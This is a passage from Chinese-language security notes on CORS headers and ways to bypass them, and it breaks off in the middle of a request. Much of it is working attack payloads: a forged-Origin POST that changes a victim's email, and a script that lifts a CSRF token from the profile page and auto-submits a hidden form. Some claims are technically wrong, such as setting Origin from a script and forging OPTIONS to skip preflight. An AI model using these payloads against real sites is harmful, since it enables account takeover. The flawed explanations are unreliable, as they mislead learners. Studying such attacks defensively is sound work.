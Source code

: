 **当服务器确认该请求合法后，会在响应头中添加以下字段：**  
- `Access-Control-Allow-Origin`：该字段指示了当前响应可以被哪些源站访问，可以是 * 或具体的源站地址。  
- `Access-Control-Allow-Methods`：该字段标识了当前响应支持的 HTTP 方法。  
- `Access-Control-Allow-Headers`：该字段标识了当前响应支持的自定义请求头。  
- `Access-Control-Allow-Credentials`：该字段指示了是否允许发送 Cookie 等敏感信息。  
### 2.3.1 绕过方法  
>[!example]
>假设存在如下情况：  
>`vulnerable.com`：目标网站  
>`/api/v1/updateEmail`：更新邮箱的api  
>`attacker%40example.com`：攻击者邮箱  

- Origin 篡改：攻击者可以通过修改请求头中的 Origin 字段，将其设置为被攻击网站的域名。如果受害者在此网站登录过，浏览器会在请求时自动携带登录凭证，导致被攻击网站认为请求是合法的，从而执行攻击者设定的恶意请求。  
    ```HTML  
    POST /api/v1/updateEmail HTTP/1.1  
    Host: vulnerable.com  
    Origin: https://vulnerable.com  
    Content-Type: application/x-www-form-urlencoded  
    Content-Length: 33  
      
    email=attacker%40example.com  
    ```  
- 跳转攻击者页面：攻击者网站核心代码如下。这部分代码缺点是没有直接返回到更新邮箱的页面。  
    ```HTML  
    <script>  
        var xhr = new XMLHttpRequest();  
        xhr.open('POST', 'http://vulnerable.com/api/v1/updateEmail', true);  
        xhr.withCredentials = true;  
        xhr.setRequestHeader('Content-Type', 'application/x-www-form-urlencoded');  
        xhr.setRequestHeader('Origin', 'https://attacker.com');  
        xhr.send('email=attacker@example.com');  
    </script>  
    ```  
    进阶方法：这个 payload 会在页面加载后首先发送一个 GET 请求到 `https://vulnerable.com/profile`，以获取**CSRF 令牌**。它使用正则表达式从响应中提取令牌，并将其添加到 POST 请求中以更新电子邮件地址。最后，它创建一个新的隐藏表单并在其中添加 CSRF 令牌，然后将表单提交以完成攻击。注意，这个 payload 也设置了 `withCredentials` 属性来启用跨域资源共享（CORS）并使用了 POST 方法来发送请求。  
    ```HTML  
    <form id="csrf-form" action="https://vulnerable.com/api/v1/updateEmail" method="POST">  
      <input type="hidden" name="email" value="attacker@example.com" />  
    </form>  
    <script>  
      const form = document.getElementById('csrf-form');  
      const xhr = new XMLHttpRequest();  
      xhr.open('GET', 'https://vulnerable.com/profile');  
      xhr.withCredentials = true;  
      xhr.onload = () => {  
        const csrfToken = xhr.response.match(/name="csrf_token"\s*value="(\w+)"/)[1];  
        const input = document.createElement('input');  
        input.type = 'hidden';  
        input.name = 'csrf_token';  
        input.value = csrfToken;  
        form.appendChild(input);  
        document.body.appendChild(form);  
        form.submit();  
      };  
      xhr.send();  
    </script>  
    ```  
- 预检请求：预检请求是在发送 CORS 请求之前，先向服务器发送一个 OPTIONS 请求，目的是为了询问服务器是否允许实际请求，从而防止非同源网站的恶意请求。攻击者可以伪造 OPTIONS 请求，实现绕过预检请求。  
    ```HTML  
    OPTIONS /api/v1/updateEmail HTTP/1.1  
    Host: vulnerable.com  